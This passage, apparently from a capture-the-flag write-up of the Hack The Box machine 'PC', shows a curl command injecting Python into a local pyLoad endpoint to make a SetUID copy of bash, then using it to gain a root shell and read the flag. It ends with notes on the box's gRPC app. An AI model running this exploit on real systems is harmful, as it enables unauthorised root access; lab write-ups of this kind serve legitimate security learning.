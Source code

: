 I’ll change the payload from creating a file to making a SetUID / SetGID copy
of `bash`:

    
    
    oxdf@hacky$ curl -d 'jk=pyimport os;os.system("cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2
    Could not decrypt key
    

Back in my shell, I’ll run it (with `-p` to not drop privs):

    
    
    sau@pc:~$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1001(sau) gid=1001(sau) euid=0(root) egid=0(root) groups=0(root),1001(sau)
    

With that I can read `root.txt`:

    
    
    0xdf-5.0# cat root.txt
    d88264b0************************
    

## Beyond Root

I thought it would be interesting to see how the GRPC application is set up
and configured, and I find it in `/opt`:

    
    
    root@pc:/opt/app# ls
    __pycache__  app.proto  app.py  app_pb2.py  app_pb2_grpc.py  middle.py  sqlite.db
    

The GRPC Python module creates the `app_pb2.py` and `app_pb2_grpc.py` files
from the `app.proto` file, and then `app.py` uses those to run the service.
[This video](https://www.youtube.com/watch?v=c1XGbS4uRlw) has more details:

[](/2023/10/07/htb-pc.html)

